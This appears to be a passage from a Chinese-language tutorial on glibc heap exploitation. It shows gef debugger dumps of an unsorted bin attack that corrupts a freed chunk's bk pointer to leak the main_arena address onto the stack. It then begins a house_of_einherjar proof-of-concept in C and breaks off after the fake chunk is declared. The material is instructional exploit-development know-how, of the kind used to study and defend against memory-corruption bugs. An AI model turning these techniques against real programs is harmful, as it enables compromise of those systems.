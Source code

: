 首先分配两个 chunk，然后释放掉第一个，它将被加入到 unsorted bin 中：
```
gef➤  x/26gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 1 [be freed]
0x602010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78      <-- fd, bk pointer
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000090	0x0000000000000020  <-- chunk 2
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000020f51  <-- top chunk
0x6020c0:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx &stack_var-2
0x7fffffffdc50:	0x00007fffffffdd60	0x0000000000400712
0x7fffffffdc60:	0x0000000000000000	0x0000000000602010
gef➤  heap bins unsorted 
[ Unsorted Bin for arena 'main_arena' ]
[+] unsorted_bins[0]: fw=0x602000, bk=0x602000
 →   Chunk(addr=0x602010, size=0x90, flags=PREV_INUSE)
```

然后假设存在一个溢出漏洞，可以让我们修改 chunk 1 的数据。然后我们将 chunk 1 的 bk 指针修改为指向目标地址 - 2，也就相当于是在目标地址处有一个 fake free chunk，然后 malloc：
```
gef➤  x/26gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 3
0x602010:	0x00007ffff7dd1b78	0x00007fffffffdc50
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000090	0x0000000000000021  <-- chunk 2
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000020f51  <-- top chunk
0x6020c0:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx &stack_var-2
0x7fffffffdc50:	0x00007fffffffdc80	0x0000000000400756  <-- fake chunk
0x7fffffffdc60:	0x00007ffff7dd1b78	0x0000000000602010      <-- fd->TAIL
```
从而泄漏了 unsorted bin 的头部地址。

#### house_of_einherjar
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    uint8_t *a, *b, *d;

    a = (uint8_t*) malloc(0x10);
    int real_a_size = malloc_usable_size(a);
    memset(a, 'A', real_a_size);
    fprintf(stderr, "We allocate 0x10 bytes for 'a': %p\n\n", a);

    size_t fake_chunk[6];
```